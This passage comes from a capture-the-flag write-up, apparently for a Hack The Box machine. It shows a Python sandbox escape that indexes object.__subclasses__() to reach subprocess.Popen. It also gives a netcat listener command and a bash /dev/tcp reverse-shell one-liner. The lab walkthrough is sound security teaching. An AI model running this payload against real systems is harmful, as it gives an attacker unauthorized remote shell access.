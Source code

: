 By increase the number from **1** until we find the intended class that we want, we gonna use that number as the intended index in our payload after. 
*You can brute force this easily with burp intruder*. And you will successfully find the index.

# IV Reverse Shell


Now we can use `subprocess.Popen` to execute our reverse shell.

We need first to establish a listener: `nc -lvnp 9001`. Then run this code:

```python frame="terminal" title="python"
print(object.__subclasses__()[317](["bash", "-c", "bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1"]))
```

![img-description](/src/content/posts/htb-code/8.png)
_We successfully got a reverse shell_

By executing the `ls` command to list the files on the dir, as you can see we have the source code of our app: `app.py`

![Desktop View](/src/content/posts/htb-code/9.png)
